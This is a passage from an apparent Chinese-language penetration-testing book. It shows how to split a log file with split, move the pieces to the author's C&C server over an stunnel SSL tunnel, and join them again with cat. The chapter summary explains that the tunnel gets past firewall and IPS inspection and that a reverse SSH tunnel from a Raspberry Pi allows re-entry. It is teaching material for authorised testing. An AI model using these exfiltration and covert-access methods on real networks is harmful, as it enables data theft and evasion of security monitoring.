split -b <size k|m> <filetobesplit> <nameofsplitfiles>
```

在以下截图中，我将把名为 system.log 的日志文件拆分为更易管理的 1 MB 大小，并命名为 system.log.split。这最终会创建四个名为 system.log.splitaa-system.log.splitad 的文件。然后我只需使用我的传输脚本通过 stunnel 隧道安全地将文件传输到我的 C&C 服务器：

```
JABELTRA-M-V0B5:~ jabeltra$ split -b 1m system.log system.log.split
JABELTRA-M-V0B5:~ jabeltra$ ls -al | grep system.log.split
-rw-r--r-- 1 jabeltra staff 1048576 Jan 22 17:38 system.log.splitaa
-rw-r--r-- 1 jabeltra staff 1048576 Jan 22 17:38 system.log.splitab
-rw-r--r-- 1 jabeltra staff 1048576 Jan 22 17:38 system.log.splitac
-rw-r--r-- 1 jabeltra staff 1003173 Jan 22 17:38 system.log.splitad
```

要在另一端将其全部重新组合，我使用 cat 命令。此实用工具基本上将文件重新连接回一个文件。语法如下：

```
cat <fileaa fileab fileac filead> > <final file name>
```

这是我在远程端重新组合文件的截图：

```
JABELTRA-M-V0B5:~ jabeltra$ cat system.log.splitaa system.log.splitab system.log.splitac system.log.splitad > system.log
JABELTRA-M-V0B5:~ jabeltra$ ls -al | grep system.log
-rw-r--r-- 1 jabeltra staff 4148901 Jan 22 17:42 system.log
```


## Summary

本章开始时向我提出的挑战是能够创建一条安全隧道来将我们的证据转移到外部，同时确保能够绕过任何潜在的安全设备。我还需要一种方法，能够从我的 C&C 服务器重新进入环境，而无需公司创建相关的防火墙访问控制规则和 NAT 规则。

利用 stunnel 和反向 ssh，我实现了这一目标。stunnel 让我能够在内部服务器和外部 C&C 服务器之间建立一条 SSL 隧道。SSL 隧道至关重要，因为大多数防火墙会允许出站 SSL，而大多数 IPS 设置不会解密负载，因此它可以在不被检查的情况下通过。反向 ssh 隧道允许 C&C 服务器搭载已从内部服务器发起的已建立 ssh 连接。自动化这一过程使得在 Raspberry Pi 重启时整个设置能够恢复。

使用我创建的脚本，我能够将文件传输到正确的目录，并将每次传输记录到日志文件以供审计。为了充分利用这条隧道，我讨论了如何压缩和分割文件，以及如何在另一端将它们重新组合起来。

在下一章，我将直接进入渗透测试，通过对一些目标进行漏洞扫描，然后尝试使用 Metasploit 等工具利用这些漏洞。我还将深入用户侧的利用，研究 BeEF 用于基于浏览器的利用以及 SET。
